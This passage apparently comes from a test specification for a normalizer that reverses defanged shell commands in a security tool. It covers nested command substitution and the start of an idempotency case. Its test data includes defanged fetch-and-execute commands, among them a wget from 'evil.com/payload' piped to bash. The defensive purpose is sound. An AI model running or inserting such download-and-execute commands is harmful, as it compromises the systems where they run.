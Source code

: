 ### 6. Nested Command Substitution

**Category**: Pattern Combination
**Priority**: P1 - High

**Input**: `echo [SUBSHELL] cxrl hxxp://192.168.1.1 [SUBSHELL]`

**Expected Output**: `echo $(curl [URL])`

**Challenge**: Nested patterns with multiple defanging types. The subshell marker contains a defanged command with defanged URL. Reversal order matters: must reverse inner patterns (URL, command) before outer patterns (subshell).

**Rationale**: Command substitution is common in malware for dynamic payload execution. Normalizer must handle nested structures correctly.

**Implementation Detail**: Pattern order in `_reverse_defanging()` ensures inner patterns (URLs, commands) are reversed before outer patterns (subshell, backticks):
```python
# First: Reverse inner patterns
cmd = re.sub(r'hxxp://', 'http://', cmd, flags=re.IGNORECASE)  # URL schemes
cmd = re.sub(r'\bcxrl\b', 'curl', cmd, flags=re.IGNORECASE)    # Commands

# Then: Reverse outer patterns
cmd = re.sub(r'\[SUBSHELL\]\s*(.*?)\s*\[SUBSHELL\]', r'$(\1)', cmd)  # Subshell
```

Semantic normalization in `_normalize_semantically()` then replaces the URL:
```python
cmd = self.URL_PATTERN.sub('[URL]', cmd)  # http://192.168.1.1 → [URL]
```

**Test Code**:
```python
def test_nested_command_substitution(normalizer: DefangingAwareNormalizer) -> None:
    """Verify nested patterns with multiple defanging types."""
    test_cases = [
        ("echo [SUBSHELL] cxrl hxxp://192.168.1.1 [SUBSHELL]", "echo $(curl [URL])"),
        ("[SUBSHELL] wxgt hxxps://evil.com/payload [SUBSHELL] [PIPE] bxsh", "$(wget [URL]) | bash"),
        ("var=[BACKTICK] cxrl hxxp://config.server [BACKTICK]", "var=`curl [URL]`"),
    ]
    for input_cmd, expected in test_cases:
        assert normalizer.normalize(input_cmd) == expected
```

**Related Test**: `test_complex_command_chains()` line 241

---

### 7. Idempotency

**Category**: Correctness
**Priority**: P0 - Critical

**Input**: `curl [URL]` (already normalized)
